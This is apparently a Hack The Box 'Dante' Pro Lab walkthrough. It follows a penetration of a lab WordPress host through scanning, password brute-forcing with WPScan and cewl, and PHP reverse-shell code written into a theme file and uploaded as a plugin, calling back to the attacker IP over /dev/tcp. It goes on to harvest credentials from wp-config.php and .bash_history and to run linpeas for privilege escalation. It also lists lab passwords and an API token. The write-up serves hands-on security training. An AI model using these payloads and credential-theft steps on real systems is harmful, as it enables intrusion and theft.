

- Machine : https://app.hackthebox.com/prolabs/dante


# Summary

### Credentials

| Idx | Int/Ext | User      | Password                | Type  | Where to find | Where to use | Link                                                  |
| --- | ------- | --------- | ----------------------- | ----- | ------------- | ------------ | ----------------------------------------------------- |
| 1   | Ext     | james     | Toyota                  | plain | NIX01         | Wordpress    | [Link](DANTE.md#Find%20credential%20using%20`wpscan`) |
| 2   | Ext     | shaun     | password                | plain | NIX01         | mysql        | [Link](DANTE.md#Find%20DB%20Credential)               |
| 3   | Ext     | balthazar | TheJoker12345!          | plain | NIX01         | mysql, ssh   |                                                       |
| 4   | Int     | margaret  | Welcome1!2@3#           | plain | NIX02         | ssh          |                                                       |
| 5   | Int     | frank     | TractorHeadtorchDeskmat | plain | NIX02         | ssh          |                                                       |
| 6   | Int     | admin     | admin                   | plain | NIX04         | blog         |                                                       |
| 7   | Int     | ben       | Welcometomyblog         | plain | NIX04         | blog, ssh    |                                                       |
| 8   |         |           |                         |       |               |              |                                                       |


### Target overview

| Idx | Host       | Status  | Vuln                                                                                                                                                                                                            | Link                                                  |
| --- | ---------- | ------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- |
| 1   | NIX01(100) | Owned   | - Wordpress Login brute forcing to find credential<br>- Wordpress Plugin to open a reverse shell<br>- Find credential in command line from `.bash_history`<br>- (privesc#1) PwnKit<br>- (privesc#2) SUID `find` | [Link](DANTE.md#Shell%20as%20`www-data`%20on%20NIX01) |
| 2   | SQL01(5)   | Nothing | - Just identified services                                                                                                                                                                                      | [Link](DANTE.md#172.16.1.5(SQL01))                    |
| 3   | NIX02(10)  | Owned   | - LFI to read `wp-config.php`<br>- Exploiting `vim` to escape from restricted shell<br>- Retrieve `Slack` exported data to obtain credential<br>- Python library Injection                                      | [Link](DANTE.md#172.16.1.10(NIX02))                   |
| 4   | NIX04(12)  | Owned   | - SQL Injection on Responsive Online Blog<br>- Exploit outdated `sudo`(1.8.27)                                                                                                                                  | [Link](DANTE.md#172.16.1.12(NIX04))                   |
| 5   | WS01(13)   |         |                                                                                                                                                                                                                 | [Link](DANTE.md#172.16.1.13(WS01))                    |
|     |            |         |                                                                                                                                                                                                                 |                                                       |
|     |            |         |                                                                                                                                                                                                                 |                                                       |


### Vulnerability


---

# External Penetration Testing

### Ping Sweep

```bash
┌──(kali㉿kali)-[~/htb]
└─$ for i in {1..254}; do (ping -c 1 10.10.110.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 10.10.110.2: icmp_seq=1 ttl=64 time=126 ms
64 bytes from 10.10.110.100: icmp_seq=1 ttl=62 time=134 ms
```

Since the host on `10.10.110.2` is firewall, there's a single target on `10.10.110.100`.

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.110.100
Performing quick port scan on 10.10.110.100...
Found open ports: 21,22,65000
Performing detailed scan on 10.10.110.100...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-03 15:53 EST
Nmap scan report for 10.10.110.100
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.16.1.100 is not the same as 10.10.110.100
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8f:a2:ff:cf:4e:3e:aa:2b:c2:6f:f4:5a:2a:d9:e9:da (RSA)
|   256 07:83:8e:b6:f7:e6:72:e9:65:db:42:fd:ed:d6:93:ee (ECDSA)
|_  256 13:45:c5:ca:db:a6:b4:ae:9c:09:7d:21:cd:9d:74:f4 (ED25519)
65000/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/wordpress DANTE{Y0u_Cant_G3t_at_m3_br0!}
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.84 seconds
```

- 3 ports are open : ftp(21), ssh(22), http(65000)
- Here I got the first flag : `DANTE{Y0u_Cant_G3t_at_m3_br0!}`

### ftp(21)

```vbnet
┌──(kali㉿kali)-[~/htb]
└─$ ftp anonymous@10.10.110.100
Connected to 10.10.110.100.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> ls -al
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        134          4096 Apr 14  2021 .
drwxr-xr-x    3 0        134          4096 Apr 14  2021 ..
drwxr-xr-x    4 0        0            4096 Apr 14  2021 Transfer
226 Directory send OK.
ftp> cd Transfer
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 14  2021 Incoming
drwxr-xr-x    2 0        0            4096 Aug 04  2020 Outgoing
226 Directory send OK.
ftp> cd Incoming
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             310 Aug 04  2020 todo.txt
226 Directory send OK.
ftp> get todo.txt
local: todo.txt remote: todo.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for todo.txt (310 bytes).
100% |******************************|   310        3.35 MiB/s    00:00 ETA
226 Transfer complete.
```

It allows anonymous login. It took a while but when I succeeded directory listing, I could find `transfer` directory which has `Incoming`, and `Outgoing` these two directories.
There's a only single file existing named `todo.txt` in `Incoming` directory.
Given the two directories, I think there might be a process connecting `Incoming` and `Outgoing` directories.

Let's read `todo.txt` first.

```vbnet
┌──(kali㉿kali)-[~/htb]
└─$ cat todo.txt
- Finalize Wordpress permission changes - PENDING
- Update links to to utilize DNS Name prior to changing to port 80 - PENDING
- Remove LFI vuln from the other site - PENDING
- Reset James' password to something more secure - PENDING
- Harden the system prior to the Junior Pen Tester assessment - IN PROGRESS
```

It seems that the file is kind of an order message to development team, or internal todo list for the development team. It provides some useful information about the target server.
- There are some misconfigurations in wordpress permission.
- There might be an internal link which gives us a hint for the domain name.
- There is a server on port 80 which is not exposed.
- Local File Inclusion vulnerability is identified in some web service.
- There's a user for James of which password is weak, and crackable.
Given all this valuable information

### http(65000)


It's a Apache's default page.

Let's fuzz the sub pages using `gobuster`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.110.100:65000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.110.100:65000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 327] [--> http://10.10.110.100:65000/wordpress/]                                                           
/server-status        (Status: 403) [Size: 281]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The only page `/wordpress` implies that the server is running on Wordpress.
Let's visit this page.


It looks like a company's web page.

On "Meet The Team" menu, it shows several employees : Kevin, Balthazar, AJ, Nathan


# Shell as `www-data` on NIX01

### Find credential using `wpscan`

Let's run `wpscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan -e ap -t 500 --url http://10.10.110.100:65000/wordpress --api-token 2aWoB7Y2LPQwxQ6YlDEVqWduZGWFaUiduJHvE80rO2w
[sudo] password for kali: 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.110.100:65000/wordpress/ [10.10.110.100]
[+] Started: Sat Jan  4 04:35:32 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.110.100:65000/wordpress/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.110.100:65000/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.110.100:65000/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Debug Log found: http://10.10.110.100:65000/wordpress/wp-content/debug.log
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: https://codex.wordpress.org/Debugging_in_WordPress

[+] Upload directory has listing enabled: http://10.10.110.100:65000/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.110.100:65000/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.1 identified (Insecure, released on 2020-04-29).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.110.100:65000/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.4.1</generator>
 |  - http://10.10.110.100:65000/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.1</generator>
 |
 | [!] 48 vulnerabilities identified:
 |
 
<SNIP>

[+] WordPress theme in use: twentytwenty
 | Location: http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Sat Jan  4 04:35:39 2025
[+] Requests Done: 53
[+] Cached Requests: 6
[+] Data Sent: 12.76 KB
[+] Data Received: 22.102 MB
[+] Memory used: 252.648 MB
[+] Elapsed time: 00:00:07
```

Let's do one more scan for the user enumeration.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan -e u -t 500 --url http://10.10.110.100:65000/wordpress --api-token 2aWoB7Y2LPQwxQ6YlDEVqWduZGWFaUiduJHvE80rO2w

<SNIP>

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.110.100:65000/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 23

[+] Finished: Sat Jan  4 04:41:24 2025
[+] Requests Done: 28
[+] Cached Requests: 40
[+] Data Sent: 8.398 KB
[+] Data Received: 146.114 KB
[+] Memory used: 165.578 MB
[+] Elapsed time: 00:00:15
```

There are two users (`admin`, `james`) are identified.

As I found in `wpscan`, let's visit `robots.txt` page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.110.100:65000/wordpress/robots.txt
User-agent: *
Disallow: /.*?.swp 
```

It seems that there is a file of which extension is `swp`.
It's a temporary vim editor file which might includes some text data.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.110.100:65000/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x swp
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.110.100:65000/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              swp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 338] [--> http://10.10.110.100:65000/wordpress/wp-content/]                                                
/wp-includes          (Status: 301) [Size: 339] [--> http://10.10.110.100:65000/wordpress/wp-includes/]                                               
/wp-admin             (Status: 301) [Size: 336] [--> http://10.10.110.100:65000/wordpress/wp-admin/]  
```

It doesn't return any `swp` file...

Let's review all I've found so far...
- The `todo.txt` says that the user `james` is using weak password.
- I found `james` from `wpscan`.

Let's try this with `rockyou.txt` first!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://10.10.110.100:65000/wordpress --usernames 'james' --passwords /usr/share/wordlists/rockyou.txt

<SNIP>
```

I waited for quite long, but it took forever since the wordlist is too large.
Why don't we just make our own wordlist using `cewl`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cewl http://10.10.110.100:65000/wordpress/ -d 5 > dante_wp_wordlist.txt


┌──(kali㉿kali)-[~/htb]
└─$ wc -l dante_wp_wordlist.txt 
494 dante_wp_wordlist.txt


┌──(kali㉿kali)-[~/htb]
└─$ head dante_wp_wordlist.txt 
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
wrapper
inner
footer
Dante
LLC
header
menu
the
toggle
```

Let's try brute-forcing with this wordlist.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://10.10.110.100:65000/wordpress --usernames 'james' --passwords dante_wp_wordlist.txt           
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

<SNIP>

Trying james / Civilization Time: 00:00:15 <> (279 / 494) 56.47%  ETA: 00:00Trying james / Associated Time: 00:00:16 <> (289 / 494) 58.50%  ETA: 00:00:1Trying james / interpreter Time: 00:00:16 <> (290 / 494) 58.70%  ETA: 00:00:Trying james / Netherlands Time: 00:00:16 <> (295 / 494) 59.71%  ETA: 00:00:Trying james / Architecture Time: 00:00:17 <> (324 / 494) 65.58%  ETA: 00:00Trying james / OpenOffice Time: 00:00:20 <> (355 / 494) 71.86%  ETA: 00:00:0Trying james / professional Time: 00:00:22 <> (385 / 494) 77.93%  ETA: 00:00[SUCCESS] - james / Toyota                                                  
Trying james / Toyota Time: 00:00:23 <=  > (400 / 894) 44.74%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: james, Password: Toyota

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jan  4 05:17:10 2025
[+] Requests Done: 575
[+] Cached Requests: 6
[+] Data Sent: 197.658 KB
[+] Data Received: 2.66 MB
[+] Memory used: 289.797 MB
[+] Elapsed time: 00:00:35
```

Bingo! It finds a valid credential : `james` : `Toyota`

### Open a reverse shell

Let's login on wordpress `wp-admin` panel.


Then, I can find a normal wordpress admin panel as usual.

Typical way to spawn a shell is editing php file.
Through "Application - Theme Editor", I can get to the edit page.

I inserted the following php code in `404.php` code.

```php
<?php
if (isset($_GET['bokchee'])) {
    $ip = escapeshellarg($_GET['ip']);
    $port = escapeshellarg($_GET['port']);
    system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
}
?>
```

Then I fetched the `404.php` page using the following URL:
`http://enterprise.htb/?p=169&bokchee=1&ip=10.10.14.4&port=443`

However, it doesn't work with the following error message.


I think this version(4.9) of wordpress doesn't allow direct modification of php files.

Here's the reference for the different approaches :
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#plugin-rce

I prepared a reverse shell php file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/9000 0>&1'") ?>
```

Then, let's upload it through "Plugin" menu.

Then, click "Add New"


Click "Upload Plugin" and select `rshell.php` file we just created, then click "Install Now".


Click "Proceed" after typing in "Hostname" and "FTP Username".



Then, on "Media" tab, I can find the file I uploaded!


If I click it, it provides a link for the access.


I waited on `nc` listener and tried to fetch the `rshell.php` page.
Then, I got a shell.

```basah
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.110.100] 40242
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ pwd
</www/html/wordpress/wp-content/uploads/2025/01$ pwd                         
/var/www/html/wordpress/wp-content/uploads/2025/01
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ id
<r/www/html/wordpress/wp-content/uploads/2025/01$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress/wp-content/uploads/2025/01$ whoami
<w/html/wordpress/wp-content/uploads/2025/01$ whoami                         
www-data
```

##### Find DB Credential

First, let's check if I got into a pivoting point.

```bash
www-data@DANTE-WEB-NIX01:/$ hostname -I
hostname -I
172.16.1.100 
```

The network 172.16.1.0/24 might be the one that we need to pivot into.

Since the shell is spawned on wordpress webroot (`/var/www/html/wordpress/`).

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
robots.txt
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

`wp-config.php` usually contains DB credentials or sensitive data. Let's read it.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH

<SNIP>

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'shaun' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

<SNIP>
```

It exposes DB credential : `shaun` : `password` for the database `wordpress`.

##### Enumerate database on NIX01

Let's investigate database with found credential.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "show databases;"
<ess$ mysql -u shaun -ppassword -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
mysql
performance_schema
sys
wordpress
```

As we found, there's a database named `wordpress`.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress; show tables;"
<u shaun -ppassword -e "use wordpress; show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_wordpress
wp_commentmeta
wp_comments
wp_links
wp_options
wp_postmeta
wp_posts
wp_term_relationships
wp_term_taxonomy
wp_termmeta
wp_terms
wp_usermeta
wp_users
```

`wp_user` table looks interesting.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress; select * from wp_users;"
<assword -e "use wordpress; select * from wp_users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
ID      user_login      user_pass       user_nicename   user_email      user_url    user_registered user_activation_key     user_status     display_name
1       admin   $P$BiINvM48wJ1iyfwOroCTdFhjB2qOvO.      admin   a@b.com http://127.0.0.1/wordpress  2020-05-09 21:16:26     1735977828:$P$BH3X3H7eBc/l/ST8vXRe3ynhvCXn4T1       0       admin
2       james   $P$B/kdWnMDyh1oMT0QCG9YAyEu8Yt.M0.      james   james@james.james   http://james.james      2020-05-09 22:17:18     1735969640:$P$BPCjtrfo6n3n5P/w7107H/sMOVyMtu/       0       James James

www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress;select user_login,user_pass from wp_users;"
<rdpress;select user_login,user_pass from wp_users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
user_login      user_pass
admin   $P$BiINvM48wJ1iyfwOroCTdFhjB2qOvO.
james   $P$B/kdWnMDyh1oMT0QCG9YAyEu8Yt.M0.
```

I tried to crack it using `hashcat` for long, but it was not successful.

##### Shell as  `balthazar` on NIX01

Since there's nothing further useful in the webroot directory, why don't we move onto the next target : `james`
I can list the files in `/home/james` directory.

```yaml
www-data@DANTE-WEB-NIX01:/home/james$ ls -al
ls -al
total 92
drwxr-xr-x 17 james james 4096 Apr 14  2021 .
drwxr-xr-x  4 root  root  4096 Apr 14  2021 ..
-rw-r--r--  1 root  root    74 Aug  5  2020 .bash_history
-rw-r--r--  1 james james  220 May  9  2020 .bash_logout
-rw-r--r--  1 james james 3771 May  9  2020 .bashrc
drwxr-xr-x 13 james james 4096 Apr 14  2021 .cache
drwxr-xr-x 11 james james 4096 Apr 14  2021 .config
drwx------  3 james james 4096 Dec 15  2022 .gnupg
drwxrwxr-x  3 james james 4096 Apr 14  2021 .local
drwx------  5 james james 4096 Apr 14  2021 .mozilla
-rw-r--r--  1 james james  807 May  9  2020 .profile
drwx------  2 james james 4096 Apr 14  2021 .ssh
drwx------  6 james james 4096 Apr 14  2021 .thunderbird
-rw-rw-r--  1 james james  168 May  9  2020 .wget-hsts
drwxr-xr-x  2 james james 4096 Apr 14  2021 Desktop
drwxr-xr-x  2 james james 4096 Apr 14  2021 Documents
drwxr-xr-x  2 james james 4096 Apr 14  2021 Downloads
drwxr-xr-x  2 james james 4096 Apr 14  2021 Music
drwxr-xr-x  2 james james 4096 Apr 14  2021 Pictures
drwxr-xr-x  2 james james 4096 Apr 14  2021 Public
drwxr-xr-x  2 james james 4096 Apr 14  2021 Templates
drwxr-xr-x  2 james james 4096 Apr 14  2021 Videos
-r--------  1 james james   39 Jan  8  2021 flag.txt
```

I don't have an access to `flag.txt` for now since I'm just `www-data` for now.
Btw, I observed that `.bash_history` file has some data and even it's readable.
This sometimes contains credential or critical information.

```bash
www-data@DANTE-WEB-NIX01:/home/james$ cat .bash_history
cat .bash_history
cd /home/balthazar
rm .mysql_history
mysql -u balthazar -p TheJoker12345!
```

Bingo! It has `mysql` credential for `balthazar` : `TheJoker12345!`

Let's try credentials for `james` and `balthazar` on `ssh` though.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh james@10.10.110.100
The authenticity of host '10.10.110.100 (10.10.110.100)' can't be established.
ED25519 key fingerprint is SHA256:Pj8NTFWehqCpZS0qnbXCKkHikSrFlHDgABvA2FE9Lu0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.100' (ED25519) to the list of known hosts.
james@10.10.110.100's password: 
Permission denied, please try again.
```

The one for `james` is not working.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh balthazar@10.10.110.100
balthazar@10.10.110.100's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-29-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


636 updates can be installed immediately.
398 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Sat Jan  4 03:34:33 2025 from 10.10.16.3
balthazar@DANTE-WEB-NIX01:~$ id
uid=1002(balthazar) gid=1002(balthazar) groups=1002(balthazar)
```

Luckily, I can get a shell as `balthazar` on `ssh`.

##### Enumeration on NIX01

Let's run `linpeas` to collect vulnerability on the system.

```bash
balthazar@DANTE-WEB-NIX01:~/Documents$ ./linpeas_linux_amd64


╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                         
Sudo version 1.8.31   


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                          
[+] [CVE-2022-2586] nft_object UAF                                          

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
